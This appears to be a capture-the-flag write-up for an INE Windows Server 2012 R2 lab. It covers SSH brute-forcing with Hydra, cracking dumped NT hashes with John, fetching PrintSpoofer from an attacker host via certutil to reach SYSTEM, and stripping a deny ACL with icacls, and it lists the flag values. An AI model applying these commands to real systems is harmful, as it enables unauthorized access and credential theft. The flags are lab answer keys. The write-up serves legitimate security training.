

## Tasks



## Enumeration

```
nmap -sCV target.ine.local
```

```
PORT      STATE SERVICE            VERSION
22/tcp    open  ssh                OpenSSH for_Windows_9.5 (protocol 2.0)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WIN-GQ7PTVEC6HL
|   NetBIOS_Domain_Name: WIN-GQ7PTVEC6HL
|   NetBIOS_Computer_Name: WIN-GQ7PTVEC6HL
|   DNS_Domain_Name: WIN-GQ7PTVEC6HL
|   DNS_Computer_Name: WIN-GQ7PTVEC6HL
|   Product_Version: 6.3.9600
|_  System_Time: 2026-06-15T14:28:04+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49167/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target is a Windows Server 2012 R2 machine (`Product_Version: 6.3.9600`) exposing SSH, SMB, and RDP. 

---
## Flag 1

> _An insecure ssh user named **alice** lurks in the system._

SSH is open on port 22 via OpenSSH for Windows. The username `alice` is known from the task description, so a dictionary attack against her SSH account is launched with Hydra:

```
hydra -l alice -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://target.ine.local
```

```
[22][ssh] host: target.ine.local   login: alice   password: princess1
```

Logging in and reading the flag from Alice's home directory:

```
ssh alice@target.ine.local
```

```
alice@WIN-GQ7PTVEC6HL C:\Users\alice> type flag1.txt
4acf34f61e8b4c629d385f678a69c511
```

The same directory also contains `hashdump.txt`, a SAM database dump that becomes the pivot point for Flag 2.

---
## Flag 2

> _Using the hashdump file discovered in the previous challenge, can you crack the hashes and compromise a user?_

The `hashdump.txt` file found in Alice's home directory contains NT hashes for 30 local accounts in the standard `username:RID:LM:NT:::` format. The LM portion is the empty-LM placeholder (`aad3b435b51404eeaad3b435b51404ee`), meaning only the NT (MD4) hashes need to be cracked:

```
alice@WIN-GQ7PTVEC6HL C:\Users\alice> type hashdump.txt
alice:1015:aad3b435b51404eeaad3b435b51404ee:8883a4229c5553c9cca6856a53011e4c:::
david:1016:aad3b435b51404eeaad3b435b51404ee:ca8e025e9893e8ce3d2cbf847fc56814:::
...
```

The NT hashes are copied and fed to John the Ripper:

```
john --format=nt --wordlist=/usr/share/wordlists/metasploit/unix_passwords.txt hashes.txt
```

```
princess1   (alice)
orange      (david)
2g 0:00:00:00 DONE (2026-06-15 20:11) 200.0g/s 100900p/s 100900c/s
```

`david:orange` is the new credential. Logging in via SSH reveals `flag2.txt` in David's home directory:

```
ssh david@target.ine.local
```

```
david@WIN-GQ7PTVEC6HL C:\Users\david> type flag2.txt
20fb1de85ecd456aac2d892793f43cfc
```

---
## Flag 3

> _Can you escalate privileges and read the flag in C:\Windows\System32\config directory?_

Checking David's token privileges reveals `SeImpersonatePrivilege` is enabled, a common indicator that a potato-family or spoofer exploit can be used to escalate to `NT AUTHORITY\SYSTEM`:

```
david@WIN-GQ7PTVEC6HL C:\Users\david> whoami /priv

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

`PrintSpoofer64.exe` is served from the attacker machine over a Python HTTP server and downloaded to the target using `certutil`:

```
# Attacker
python3 -m http.server 8000
```

```
david@WIN-GQ7PTVEC6HL C:\Users\david> certutil.exe -urlcache -split -f ^
    http://10.10.41.5:8000/PrintSpoofer64.exe C:\Users\david\PrintSpoofer64.exe
CertUtil: -URLCache command completed successfully.
```

PrintSpoofer abuses `SeImpersonatePrivilege` via a named pipe trick that coerces the Print Spooler service into authenticating to an attacker-controlled pipe, allowing impersonation of its SYSTEM token:

```
david@WIN-GQ7PTVEC6HL C:\Users\david> PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
```

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd config

C:\Windows\System32\config> type flag3.txt
79b4296875e5417ab0c4d7db80754afc
```

---
## Flag 4

> _Looks like the flag present in the Administrator's home denies direct access._

Navigating to `C:\Users\Administrator\flag` and inspecting the ACL with `icacls` reveals an explicit **deny** rule on `NT AUTHORITY\SYSTEM` for read and execute (`RX`), blocking the current SYSTEM context from accessing the directory:

```
c:\Users\Administrator> icacls flag
flag NT AUTHORITY\SYSTEM:(OI)(CI)(DENY)(RX)
     Everyone:(F)
     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
     BUILTIN\Administrators:(I)(OI)(CI)(F)
     WIN-GQ7PTVEC6HL\Administrator:(I)(OI)(CI)(F)
```

Since SYSTEM privileges allow modifying ACLs, the explicit deny entry is removed with `icacls /remove:d`:

```
c:\Users\Administrator> icacls flag /remove:d "nt authority\system"
processed file: flag
Successfully processed 1 files; Failed processing 0 files
```

Verifying the updated ACL confirms the deny entry is gone, and the directory is now accessible:

```
c:\Users\Administrator> icacls flag
flag Everyone:(F)
     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
     BUILTIN\Administrators:(I)(OI)(CI)(F)
     WIN-GQ7PTVEC6HL\Administrator:(I)(OI)(CI)(F)
```

```
c:\Users\Administrator> cd flag

c:\Users\Administrator\flag> type flag4.txt
17635db9c50c40d9b002fcd2018648eb
```

---
## Summary

|#|Technique|Flag|
|---|---|---|
|1|SSH brute-force (`alice`)|`4acf34f61e8b4c629d385f678a69c511`|
|2|NT hash cracking (John) → lateral move to `david`|`20fb1de85ecd456aac2d892793f43cfc`|
|3|`SeImpersonatePrivilege` → SYSTEM (PrintSpoofer)|`79b4296875e5417ab0c4d7db80754afc`|
|4|ACL manipulation (`icacls /remove:d`)|`17635db9c50c40d9b002fcd2018648eb`|```